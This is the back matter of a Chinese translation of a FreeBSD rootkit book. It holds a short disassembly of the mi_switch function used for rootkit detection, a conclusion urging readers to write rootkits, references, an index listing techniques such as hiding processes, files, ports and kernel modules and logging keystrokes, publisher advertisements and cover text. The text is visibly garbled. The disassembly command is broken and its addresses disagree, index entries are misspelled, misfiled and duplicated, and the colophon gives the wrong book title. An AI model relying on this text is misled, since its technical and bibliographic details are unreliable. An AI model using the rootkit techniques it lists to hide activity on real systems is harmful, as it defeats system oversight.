> 因为实现此操作的代码相当冗长，我将简单解释如何实现，并将实际代码留给你自己。

`mi_switch` 函数实现了线程上下文切换的机器无关的前序。换句话说，它处理了执行上下文切换所需的所有管理任务，但并不处理上下文切换本身（`cpu_switch` 或 `cpu_throw` 执行实际的上下文切换）。

以下是 `mi_switch` 的反汇编：

```bash
$ /boot/kernel/kernel | grep mi_switch
c0663e7dc T mi_switch
objdump -d -start-address=0xc063e7dc /boot/kernel/kernel
```

```text
# /boot/kernel/kernel: file format elf32-1386-freebsd
section .text 的反汇编：

c063e7dc <mi_switch>:   push %ebp
c063e7dc:               55
c063e7dd:             89 e5    mov %esp,%ebp
c063e7df:             57      push %edi
c063e7e0:             56      push %esi
c063e7e1:             53      push %ebx
c063e7e2:             83 ec 30    sub $0x30,%esp
c063e7e5:         64 a1 00 00 00 00  mov %0x0,%eax
c063e7eb:             89 45 fb    mov %ebp,%edi
c063e7ee:             88 38    mov (%eax),edi
```


## 结语

`rootkit` 这个词往往带有负面含义，但 rootkit 仅仅是系统程序。书中概述的技术可以被——也已经被——用于“善意”和“恶意”的目的。无论如何，我希望这本书能激发你进行一些自己的内核黑客活动，无论你是在编写 rootkit、编写设备驱动程序，还是仅仅在解析内核源码。

在结束之前，有三点值得提到。首先，除非你是为了教育目的而编写 rootkit，否则你应该尽量保持其简单性；标新求异只会引入错误。其次，像编写任何内核代码一样，要留意并发问题（包括处理器和 SMP）、竞态条件以及你如何在内核空间和用户空间之间切换；否则，请做好内核恐慌（`kernel panic`）的准备。最后，记住，你的 rootkit 只需要找到少数可靠且未受保护的位置即可成功，而反 rootkit 群体在某种程度上需要进行防御，因为整个内核是一个巨大的空间。祝黑客愉快！

## 参考文献

Cesare, Silvio. “Runtime Kernel Patching.” 1998. http://www.phrack.org/archives/runtime-patching.html (2007年2月28日访问)。

Life. “Integrity Checking Systems.” Phrack 7, no. 51 (1997年9月1日), http://www.phrack.org/archives/51/09 (2007年2月28日访问)。

Hoglund, Greg. “Kernel Object Hooking (Rootkits).” 2006年6月1日. http://www.rootkit.com/read.php?newsid=501 (2007年2月28日访问)。

Hoglund, Greg and Jamie Butler. *Rootkits: Subverting the Windows Kernel*. Boston: 2005.

Kernighan, Brian W. and Dennis M. Ritchie. *The C Language*. 2nd ed. Englewood Cliffs, NJ: 1988.

Kong, Joseph. “Playing Games with Kernel Memory-FreeBSD Style.” Phrack 11, no. 63 (2005年7月8日), http://www.phrack.org/archives/63/07_Games_With_Memory_FreeBSD.txt (2007年2月28日访问)。

Mazidi, Muhammad Ali and Janice Gillespie. *The 8086 PC and Compatible Computers*. Vols. 1 and 2. Saddle River, NJ: 2002.

McKusik, Marshall and George V. Neville. *The Design and Implementation of the FreeBSD Operating System*. Boston, MA: 2004.

Pragmatic. “Attacking FreeBSD with Kernel Modules: The System Call Approach.” The Hacker’s Choice, 1999年6月. http://www.phrack.org/archives/99/6 (2007年2月28日访问)。

Pragmatic. “Loadable Kernel Modules: The Definitive Guide for Hackers, Coders, and System Administrators.” The Hacker’s Choice, 1999年3月. http://www.phrack.org/archives/99/10 (2007年2月28日访问)。

Reiter, Andrew. “Dynamic Kernel Linker (KLD) Facility Tutorial.” Daemon News, 2000年10月. http://www.daemonnews.org/2000/10/blueprints.html (2007年2月28日访问)。

Sd and Dev. “Linux-the-fly kernel patching without LKM.” Phrack 11, no. 58 (2001年12月12日), http://www.phrack.org/archives/58/07 (2007年2月28日访问)。

Stevens, W. *Advanced Programming in the UNIX Environment*. Reading, MA: Addison-Wesley, 1992.

*TCP/IP Illustrated. Vol. 1, The Protocols*. Boston: Addison-Wesley, 1994.

*UNIX Network Programming. Vol. 1, Networking APIs: Sockets and XTI*. 2nd ed. Saddle River, NJ: 1998.

Wehner, Stephanie. “Fun and Games with FreeBSD Kernel Modules.” Phrack, 2001年8月4日. http://www.phrack.net/mod/fbsdun.html (2007年2月28日访问)。

## 索引

### A
- 文件访问时间，防止更改, 107–114
- `allproc` 列表, 42–43
- 应用程序接口 (APIs)
- HIDS 软件检测, 92
- 钩子以修改结果, 24
- 信任带来的问题, 123
- `SYSCALL_MODULE` 中的 `arg` 参数, 9
- 参数结构中的填充, 7
- `chdir` 系统调用, 30
- `chmod` 系统调用, 30
- `chown` 系统调用, 30
- 代码字节补丁，查找, 125
- 通信协议, 30–32
- 钩钩 (hooking), 32–34
- 编译可执行文件, 5
- `copyin()` 函数, 13
- `copyinstr()` 函数, 13
- `copyout()` 函数, 13
- `copystrunc()` 函数, 13
- 用于 `kvm_function` 的 `corefile` 参数, 64

### B
- rootkit 检测，行为，通过...方式 119
- `bsd.kmod.nik`

### C
- 调用钩子，*见 hooking*
- 补丁, 70–73
- x86 汇编, 70
- `devp_list` 队列, 60
- `dcesw` 结构, 14–15
- `struct file` 中的 `char*`, 103
- `proc` 结构中的 `char*[MAXLEN];`, 42
- 字符设备, 14
- 钩子, 59–62
- 字符设备驱动，入口点, 15
- 字符设备模块, 14–21
- `dceev` 结构, 14–15
- 字符设备函数, 15–16
- 设备注册例程, 16
- 示例, 17–19
- 测试字符设备, 19–21
- 字符设备切换表, 59
- 修改, 60–62

### D
- 数据损坏, 56–57
- 对称多处理 (SMP), 39
- 用于 `DECLARE_MODULE` 的 `data` 参数, 3
- 字符设备 `d_close` 入口, 15
- `ddb()`*[内核模块调试器], 81
- 来自 `mdkdir` 系统的调试消息, 24
- *内核问题* (KLD), 22
- `DECLARE_MODULE`, 3
- `destroy_dev()` 函数, 16
- `/dev/kern`, 63
- `DEV_MODULE`, 19
- `devtx` 互斥锁, 60
- 字符设备 `d_ioctl` 入口, 15
- `DIP_SET` 宏, 111
- 直接内核操作 (DKOM), 37–57
- 检测, 123–125
- 隐藏运行进程, 41–46
- `allproc` 列表, 42–43
- 进一步步骤, 46–51
- `proc` 结构, 41–42
- 使用...隐藏, 51
- 用于 `kv_opens` 函数, 64
- 用于 `malloc()` 函数, 73–74
- `free()` 函数, 74
- `FREE` 宏, 75
- 建立机器, 22
- 3.0 版本到内核模块, 1
- 虚拟内存部分, 29
- 同步问题, 39–41
- `dirent` 结构, 98
- DKOM. 见 直接内核操作 (DKOM)
- 字符设备 `d_open` 入口, 15
- 双向链表, 38
- 字符设备 `d_poll` 入口, 15
- 字符设备 `d_read` 入口, 15
- 字符设备 `d_write` 入口, 15
- FreeBSD 开发者手册, 22
- `<fs/devfs/dev_int.h>` 头文件, 60
- 带有补丁的代码, 15
- 动态内核链接器 (KLD) , 1
- `getdentries` 系统调用, 30
- 钩子, 96–101
- (KLD), 101–107
- Giant 锁, 102

### E
- `proc` 结构中的 `enum p_state`, 42
- 用于 `kvm_opens` 函数的 `errbuf`, 64
- 互斥锁, 40–41
- 用于 `kvm_opens` 的可执行文件, 64
- 可执行文件，编译, 5
- 执行系统调用, 11
- 执行重定向, 92–95
- `execve` 系统调用, 30
- `_exit()` 系统调用函数, 51
- 硬, 83
- 哈希表, 47
- `hashinit()` 函数, 47
- "Hello, world!" 模块, 4–5
- 查找, 101–107
- 隐藏进程, 123–124

### F
- 文件隐藏, 96–101
- 隐藏 KLD, 101–107
- 热补丁, 90
- 内核恐慌, 56, 77, 88
- 避免, 44
- 内核进程追踪, 28–29
- 内核源码树, 22
- 内核空间, 26
- 用户数据操作函数, 12–13
- 使用系统调用的按键记录, 26–28
- `kill` 系统调用, 30

### G
- ICMP (Internet Control Message Protocol), 32–34
- `icmp_input_hook()` 函数, 32–34
- `inetwsw[]` 切换表, 31–32
- 内联函数，钩子, 81–88
- 查找, 125
- `npcb` 结构, 52–53
- `pcbinfo` 结构, 53
- 从 `tcbinfo.listdir` 列表中移除, 54–56
- `proc` 结构中的 `p_flag` 字段, 41
- `struct_file` 中的 `int refs` 字段, 102
- 网控制消息协议 (ICMP), 32–34
- 互联网协议控制块, 52
- `ioctl` 系统调用, 30
- KLD (动态内核链接器), 1
- "Hello, world!" 模块, 4–5
- 查找, 101–107
- 初始化和关机例程, 2–3
- 内内核注册, 3
- `kldload` 系统调用, 5
- `kldstat()` 命令, 21, 101
- `kldun` 系统调用, 5
- `ktrace()` 工具, 28–29
- `kvm_close()` 函数, 66
- `vm_geterr()` 函数, 65
- `vm_nlist()` 函数, 64–65
- `vm_open()` 函数, 64
- `vm_read()` 函数, 65
- `vm_write()` 函数, 65

### J
- 跳转，无条件, 81

### K
- `kdmp()` 工具, 28–29
- 内核
- 数据损坏, 56–57
- 检测内存补丁, 125
- 用于 KLD 注册, 3
- 内存分配, 73–77
- 来自用户空间, 77–81
- 队列数据结构, 37–39
- 同步, 39–41
- 加载和卸载代码进入, 5
- 访问虚拟内存接口, 63
- 补丁代码, 66–70
- 内核模式调试器, 81
- 返回状态的内核函数, 10
- 用于, 10
- 结构, 103–104
- 内核对象钩 (KOH), 钩字符设备, 59–62

### L
- `libkvm` (内核数据访问库), 63–66
- `linesw[]` 切换表, 35
- 链接文件, 21–22
- KLD 结构在, 101
- `linker_file` 列表, 102–103
- `linker_files` 列表, 102
- `LIST_ENTRY` 宏, 38–39
- `LIST_ENTRY(icmp)` `ip_list` 字段, 在 `inpcb` 结构中, 52
- `LIST_ENTRY(p_hash)` 字段, 在 `proc` 结构中, 42
- `LIST_ENTRY(p_list)` 字段, 在 `proc` 结构中, 41
- `LIST_` 宏, 39
- `LIST_HEAD` 宏, 38
- `LIST_HEAD_INITIALIZER` 宏, 38–39
- `LIST_REMOVE` 宏, 39
- 可加载内核模块 (LKM), 1
- 确保同步的锁, 40–41
- 共享或互斥, 40–41
- `1_read` 入口，钩子, 35
- `1stat` 系统调用, 30

### M
- `make_dev()` 函数, 16
- `Makefile`, 4–5
- `malloc()` 函数, 73–74
- `MALLOC` 宏, 74
- `mbuf` 结构, 32
- 内存分配, 73–77
  - 源自用户态, 77–81
- 内存，运行时检测
- 补丁, 125
- `mi_switch()` 函数, 123–124
- `mkdir` 系统
  - 调试信息输出自, 24
- 使用内联函数的补丁
  - 示例, 82–88
- `modinf()` 函数, 10
- `modid`, 针对内核模块, 10
- 文件修改时间，防止
  - 更改, 107–114
- `modstat()` 函数, 10
- 模块事件处理器, 2–3
- 模块列表, 103
- `module_stat` 结构, 11
- `mtx_lock()` 函数, 40
- `mtx_unlock()` 函数, 40
- 互斥锁 (mutexes), 40
- `pfind()` 函数, 48
- Prack 杂志, 90
- `PIDHASH` 宏, 48
- `pidhashbt` 哈希表, 47
- `pid_t p_pid` 字段，在 `proc` 结构中, 42
- port (端口)
  - 隐藏函数, 125
  - 隐藏基于 TCP 的端口, 52–56
- `pr_clitput` 入点, 在协议切换表中, 30–31
- `pr_cloutput` 入点, 在协议切换表中, 30–31
- `pread` 系统调用, 30
- `prev` 系统调用, 30
- `pr_init` 入点, 在协议切换表中, 30–31
- `pr_input` 入点, 在协议切换表中, 30–31
- `printf`，补丁以调用 `printf` 替换原有位置, 72
- `proc` 结构, 41–42
- 进程 (processes)
  - 隐藏函数, 123–124
  - 隐藏运行中的进程, 41–46
    - 示例, 43–46
    - 后续, 46–51
- 进程隐藏函数, 48
- 协议切换表, 30–31
- `pr_output` 入点, 在协议切换表中, 30–31
- `pwrite` 系统调用, 30
- `pvvwrite` 系统调用, 30

### N
- `DECLARE_MODULE` 宏的 `name` 参数, 3
- 是否为 `SYSCALL_MODULE`, 8
- near 调用语句, 70
- `<net/in_pcb.h>` 头文件
  - `struct in` 的端点定义, 在, 52–53
  - `u_char inp_vflag;` 定义, 53
- `<net/tcp_var.h>` 头文件, `tcbinfo` 定义, 53
- `new_system` 参数, 在 `SYSCALL_MODULE` 中, 9

### O
- 对象，移除内核中的所有引用, 51
- `offset` 参数, 针对 `SYSCALL_MODULE`, 8
- `offset` 值, 针对系统调用, 8
- `open` 系统调用, 30
- `order` 参数, 针对 `DECLARE_MODULE` 宏, 3

### P
- 填充 (padding), 在参数结构中, 7
- Perl，命令行执行, 12

### R
- `read` 系统调用, 30
- 钩钩 (hooking), 26
- `readvy` 系统调用, 30
- `rename` 系统调用, 30
- `rmdir` 系统调用, 30
- rootkits (根内核程序)
  - 绕过 HIDES, 91–117
  - 执行重定向, 92–95
  - 文件隐藏, 96–101
  - 隐藏 KLD, 101–107
  - 定义, xvi
  - 检测, 119–126
  - 设计, 126
  - 无需卸载例程, 95
  - 新改进的示例, 104–107
  - 预防, 126
- 运行中的内核
  - 加载和卸载代码到, 5
  - 用户态代码补丁, 63–90
  - 隐藏运行中的进程, 41–46
  - 后续, 46–51
- `/sys/kernel/vfs_syscall.c` 文件, 96
- `<sys/module.h>` 头文件
  - 事件处理器函数原型
  - `module_stat` 结构定义, 在, 11
- `<sys/mutex.h>` 头文件, Giant lock 定义, 在, 102
- `<sys/netinet/in_proto.c>` 文件, 31–32
- `<sys/proc.h>` 头文件, 41
- `PIDHASH` 宏定义, 48
- `pidbshalt` 定义在, 47
- `proclist` 结构定义, 43
- `<sys/ptos.h>` 头文件, `protosream` 结构定义, 30–31
- `<sys/queue.h>` 头文件, 队列数据定义, 38
- `<sys/sysent.h>` 头文件
  - `SYSCALL` 宏定义, 在, 8
  - `sys` 结构定义, 在, 7
- 系统调用函数原型, 在, 6
- `syscall()` 函数, 11
- `SYSCALL` 宏, 8
- `sent` 结构, 7
- `sys_mkdir` 配置, 25
- 系统调用通用钩子, 29–30
- 伪装 (cloaking), 88–90
- 击键记录, 带 26–27
- 系统调用函数, 6–12
- 系统调用模块, 示例, 9–10, 75–77
- 执行系统调用, 11
  - 不使用 C 代码, 12
- 钩子 (inding hooks), 120–123
- 隐藏运行进程的示例, 43–46
- `modfind()` 函数, 10
- `modstat()` 函数, 10
- `offset` 值, 8
- 覆盖, 77
- `syscall()` 函数, 11
- `SYSCALL` 宏, 8
- `sys` 结构定义, 在, 7
- 系统调用函数, 在, 6

### S
- 服务请求, 6
- 共享锁 (shared lock), 40–41
- 签名自, 19
- `size` 参数, 针对 `malloc()` 函数, 73
- `size_t`, 针对系统调用, 8
- `stat` 系统调用, 30
- 内核状态, 11
- `struct cdev`, 在, 60
- `struct cdev_priv`, 60
- `struct inpcb head`, 53
- `struct inpcb` 结构, 53
- `struct mtx_mtx`, 53
- `struct p_mtx`, 42
- `struct v_mtx`, 42
- `swap` 参数, 在 `inpcb` 结构中, 52
- `swap` 参数, 针对 `DECLARE_MODULE` 宏, 3
- 内核同步, 39
- `sys/netinet/in_proto.c` 文件, 31–32
- `sys/proc.h` header, 41
- `sys/sysent.h` header
  - `SYSCALL` 宏定义, 在, 8
  - `sys` 结构定义, 在, 7
- 系统调用函数原型, 在, 6
- `syscall()` 函数, 11
- `SYSCALL` 宏, 8
- `sent` 结构, 7
- `sys_mkdir` 配置, 25
- 系统调用通用钩子, 29–30
- 伪装, 88–90
- 击键记录, 带 26–27
- 系统调用函数, 6–12
- 系统调用模块, 示例, 9–10, 75–77
- 执行系统调用, 11
  - 不使用 C 代码, 12
- 钩子, 120–123
- 隐藏运行进程的示例, 43–46
- `modfind()` 函数, 10
- `modstat()` 函数, 10
- `offset` 值, 8
- 覆盖, 77
- `syscall()` 函数, 11
- `SYSCALL` 宏, 8
- `sys` 结构定义, 在, 7
- 系统调用函数, 在, 6

## 更多实用的干货书籍

### 黑客入侵：利用的艺术 (HACKING: THE ART OF EXPLOITATION)
第二版

作者：JOHN ERICKSON

在全新的第二版中，作者 Jon Erickson 再次通过实用示例阐述了三个相关领域中最常见的计算机安全问题：编程、网络和密码学。所有章节都经过了大量的更新和扩展，包括对计算机复杂的底层工作原理更详尽的介绍。附带的 Live CD 提供了一个 Linux 编程环境，并包含了安全工具和示例代码。

2007年8月，296页，带 CD，$39.95（加币 $49.95 CDN）
ISBN 978-1-59327-144-2



### 线上的沉默
*被动侦察与间接攻击指南*

作者：MICHAEL ZALEWSKI

Zalewski 分享了他的专业知识和经验，解释了计算机和网络如何工作、信息是如何处理和传递的，以及隐藏在阴影中的安全威胁。这本书并不是一本枯燥的技术白皮书或保护网络的说明书，而是一部引人入胜的叙述，探索了各种独特、不寻常且通常非常优雅的安全挑战，这些挑战超越了分类，并摒弃了传统的攻击者-受害者模型。

2005年4月，312页，$39.95（加币 $53.95 CDN）
ISBN 978-1-59327-046-9


### 安全数据可视化

作者：REG CONTI

安全数据可视化工具为计算机安全数据世界提供了图形化窗口，揭示了关于网络、密码学和文件结构的迷人且实用的见解。在学习了如何正确绘图和显示数据后，读者将能够一目看出复杂数据集。读者还将学习网络攻击的形态，以及如何使用 Afterglow 和 RUMINT 等可视化软件评估网络的漏洞，并如何通过识别系统如何被操纵和攻击，来构建和防御自己的网络可视化系统。

2007年8月，256页，$49.95（加币 $61.95 CDN）
ISBN 978-1-59327-143-5



### 绝对 BSD (ABSOLUTE BSD)
FreeBSD 终极指南
作者：MICHAEL. LUCAS

这本 FreeBSD 完全指南涵盖了安装、网络、添加软件、安全、网络服务、系统性能、内核调优、文件系统、SCSI 和 RAID 配置、SMP、升级、监控、崩溃调试、办公中的 BSD 以及其他操作系统的仿真。
2002年8月，62页，$39.95（加币 $61.95 CDN）
ISBN 978-1-886411-74-6
2007年8月出版第二版，ISBN 978-1-59327-151-0


### 绝对 OpenBSD (ABSOLUTE OPENBSD)
面向实用偏执狂的 UNIX
作者：MICHAEL. LUCAS

这本精通强大且复杂的 OpenBSD 操作系统的直观、实用且完整的指南，是为那些想要将 OpenBSD 加入其技能库的经验 UNIX 用户准备的。作者假设读者具备基础 UNIX 命令、设计和权限知识。OpenBSD 涵盖了平台的复杂之处以及如何应对。
2003年7月，528页，$39.95（加币 $59.95 CDN）
ISBN 978-1-886411-9



FreeBSD Foundation
7321 Brockway Drive, Boulder, CO 80303, USA
电话：+1-720-227-5142 传真：+720-222-2350 网站：www.freebsdoundation.org

## 跋记 (COLHON)

《黑客入侵》使用 Adobe FrameMaker 排版。正文使用的字体为 New Baskerville，标题使用 Futura 和 Dogma。

本书在密歇根州的 Ann Arbor 由 Malloy Incorporated 印刷装。。采用 Glatfelter 60# Antique，由 50% 的回收材料制成，其中包含 30% 的消费后内容。书籍采用 RepKover 装订，可以平摊打开。

## 更新

您可以从书中下载代码，并可以在以下网址获取更新、错误说明和其他信息：www.nostarch.com/rootkits.htm。

虽然 rootkit 具有相当负面的形象，但它们也可以用于善意。**《黑客入侵》**为您配备了编写 rootkit、防御恶意 rootkit 以及在此过程中探索 FreeBSD 内核和操作系统的知识。

包括：

- FreeBSD 内核模块编程基础
- 使用调用钩子（call hooking）颠覆 FreeBSD 内核
- 直接操作内核依赖赖的对象
- 补丁主内存中的内核代码；换句话说，在运行时修改内核逻辑
- 如何防御书中描述的攻击

《黑客入侵》以教程的形式组织，将教你在 FreeBSD 操作系统下编写和开发 rootkit 的基础。作者 Joseph Kong 的目标是让你变得聪明，而不是教你如何编写漏洞或发动攻击。你将学习如何在获取计算机访问后维持 root 权限，以及如何破解 FreeBSD。

所以尽管大胆吧。自己去破解 FreeBSD 内核。

## 关于作者

Kong 大量使用示例假设读者没有内核黑客经验，但并没有削减信息。所有代码都经过了详细描述和分析，每个章节都至少包含一个真实应用。

摆弄电脑一直是作者 Joseph Kong 的主要爱好。他是一个自学程序员，涉猎于信息安全、操作系统理论、逆向工程和漏洞评估。他曾在《Prack 杂志》撰过文章，并曾担任多伦市的系统管理员。
